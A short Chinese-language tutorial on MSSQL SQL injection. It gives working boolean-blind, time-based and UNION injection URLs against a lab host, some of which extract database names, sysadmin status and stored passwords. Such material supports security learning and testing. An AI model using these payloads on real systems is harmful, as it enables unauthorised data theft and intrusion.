




# 0x00 盲注

#### 布尔盲注

其实跟mysql大同小异 无非就是分割字符串比较，但是mssql的盲注套路确实没那么多


```
http://192.168.130.137/1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

```


#### 时间盲注


```
http://192.168.130.137/1.aspx?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--

http://192.168.130.137/1.aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--


```


当然盲注你也可以使用前面提到的declare 灵活运用吧,对于盲注这块感觉mssql不如mysql灵活


# 0x02 联合注入

mssql联合注入我们一般不使用 数字占位，而是null，因为你使用数字占位可能会发生隐式转换


```
http://192.168.130.137/1.aspx?id=1 union select 1,2,3

```



```
http://192.168.130.137/1.aspx?id=1 union select null,name,pass from info

```



当然也可以这样用

```
http://192.168.130.137/1.aspx?id=1 SELECT 1 UNION (select CAST(USER as int))

```




在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```
http://192.168.130.137/1.aspx?id=1 union select null,name%2Bpass,null from info

```




# 0x03 文末


#### 本文如有错误，请及时提醒，避免误导他人


BY 404
